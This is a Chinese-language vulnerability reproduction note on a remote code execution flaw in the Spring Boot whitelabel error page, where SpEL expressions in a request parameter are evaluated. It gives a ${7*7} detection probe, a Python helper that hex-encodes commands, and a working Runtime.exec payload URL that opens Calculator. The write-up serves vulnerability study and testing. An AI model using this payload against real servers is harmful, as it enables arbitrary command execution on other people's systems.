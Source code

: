 Spring Boot whitelabel error page SpEL rce
==========================================

一、漏洞简介
------------

### 利用条件

-   至少知道一个触发 springboot 默认错误页面的接口及参数名

二、漏洞影响
------------

spring boot 1.1.0-1.1.12、1.2.0-1.2.7、1.3.0

三、复现过程
------------

#### 漏洞原理：

1.  spring boot 处理参数值出错，流程进入
    `org.springframework.util.PropertyPlaceholderHelper` 类中
2.  此时 URL 中的参数值会用 `parseStringValue` 方法进行递归解析
3.  其中 `${}` 包围的内容都会被
    `org.springframework.boot.autoconfigure.web.ErrorMvcAutoConfiguration`
    类的 `resolvePlaceholder` 方法当作 SpEL 表达式被解析执行，造成 RCE
    漏洞

### 漏洞复现

##### 步骤一：找到一个正常传参处

比如发现访问 `/article?id=xxx` ，页面会报状态码为 500 的错误：
`Whitelabel Error Page`，则后续 payload 都将会在参数 id 处尝试。

##### 步骤二：执行 SpEL 表达式

输入 `/article?id=${7*7}` ，如果发现报错页面将 7\*7 的值 49
计算出来显示在报错页面上，那么基本可以确定目标存在 SpEL 表达式注入漏洞。

由字符串格式转换成 `0x**` java 字节形式，方便执行任意代码：

    # coding: utf-8

    result = ""
    target = 'open -a Calculator'
    for x in target:
        result += hex(ord(x)) + ","
    print(result.rstrip(','))

执行 `open -a Calculator` 命令

    ${T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))}

正常访问：

    http://www.0-sec.org:9091/article?id=66

执行 `open -a Calculator` 命令：

    http://www.0-sec.org:9091/article?id=${T(java.lang.Runtime).getRuntime().exec(new%20String(new%20byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))}
